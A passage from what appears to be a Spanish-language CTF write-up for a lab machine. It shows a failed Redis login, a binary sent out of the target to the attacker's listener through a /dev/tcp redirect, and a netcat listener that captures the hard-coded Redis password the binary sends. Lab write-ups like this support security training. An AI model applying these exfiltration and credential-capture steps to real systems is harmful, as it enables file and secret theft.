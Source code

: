 Si probamos con las credenciales que tenemos no funcionan

```bash
127.0.0.1:6379> AUTH james_mason Soleil101
(error) WRONGPASS invalid username-password pair
127.0.0.1:6379> 
```

Para analizarlo de mejor manero nos vamos a traer el `redis_connector_dev`

```bash
dan_smith@shared:~$ cat < /usr/local/bin/redis_connector_dev > /dev/tcp/10.10.14.12/443
```

```bash
❯ nc -nlvp 443 > redis_connector_dev
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.172] 54596

```

Bueno como no tenemos el redis instalado nos dice esto 

```bash
❯ ./redis_connector_dev
[+] Logging to redis instance using password...

INFO command result:
 dial tcp [::1]:6379: connect: connection refused

```

Pero podemos usar **netcat** por que dice que se esta conectando usando una contraseña entonce podemos saber cual es la que esta usando

Nos vamos a poner en escucha en el puerto indicado

```bash
❯ nc -nlvp 6379
listening on [any] 6379 ...

```

Si lo ejecutamos pasa esto 

```bash
❯ ./redis_connector_dev
[+] Logging to redis instance using password...

INFO command result:
 i/o timeout
```

Recibimos esto 

```bash
❯ nc -nlvp 6379
listening on [any] 6379 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 57328
*2
$4
auth
$16
F2WHqJUz2WEz=Gqq
```
